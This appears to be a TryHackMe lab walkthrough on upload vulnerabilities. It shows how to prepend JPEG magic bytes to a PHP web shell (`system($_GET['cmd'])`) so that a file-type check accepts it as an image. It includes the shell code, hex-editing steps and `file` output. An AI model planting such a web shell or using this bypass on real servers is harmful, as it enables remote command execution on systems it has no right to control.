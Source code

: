 
As expected, if we upload our standard shell.php file, we get an error; however, if we upload a JPEG, the website is fine with it. All running as per expected so far.


From the previous attempt at an upload, we know that JPEG files are accepted, so let's try adding the JPEG magic number to the top of our `shell.php` file. A quick look at the [list of file signatures on Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) shows us that there are several possible magic numbers of JPEG files. It shouldn't matter which we use here, so let's just pick one (`FF D8 FF DB`). We could add the ASCII representation of these digits (ÿØÿÛ) directly to the top of the file but it's often easier to work directly with the hexadecimal representation, so let's cover that method.

Before we get started, let's use the Linux file command to check the file type of our shell:

```
$ file jpg_magic_byte_webshell.php 

jpg_magic_byte_webshell.php: PHP script, ASCII text
```
As expected, the command tells us that the filetype is PHP. Keep this in mind as we proceed with the explanation.

We can see that the magic number we've chosen is four bytes long, so let's open up the reverse shell script and add four random characters on the first line. These characters do not matter, so for this example we'll just use four "A"s:

```
//jpg_magic_byte_webshell.php

AAAA
<?php
        echo system($_GET["cmd"]);
?>
```

Save the file and exit. Next we're going to reopen the file in `hexeditor` (which comes by default on Kali), or any other tool which allows you to see and edit the shell as hex. In hexeditor the file looks like this:

![](https://github.com/reveng007/TryHackMe/blob/main/_SUBSCRIPTION_/paths/Complete%20Beginner/04.Web%20Hacking%20Fundamentals/06.Upload%20Vulnerabilities/pic17.png?raw=true)

Note the four bytes in the red box: they are all `41`, which is the hex code for a capital "A" -- exactly what we added at the top of the file previously.

Change this to the magic number we found earlier for JPEG files: `FF D8 FF DB`

see: [How to use vim and xxd together to form hexeditor](https://www.schirmacher.de/display/Linux/Using+vi+as+a+hex+editor)

```
$ file jpg_magic_byte_webshell.php

jpg_magic_byte_webshell.php: JPEG image data
```

Perfect. Now let's try uploading the modified shell and see if it bypasses the filter!
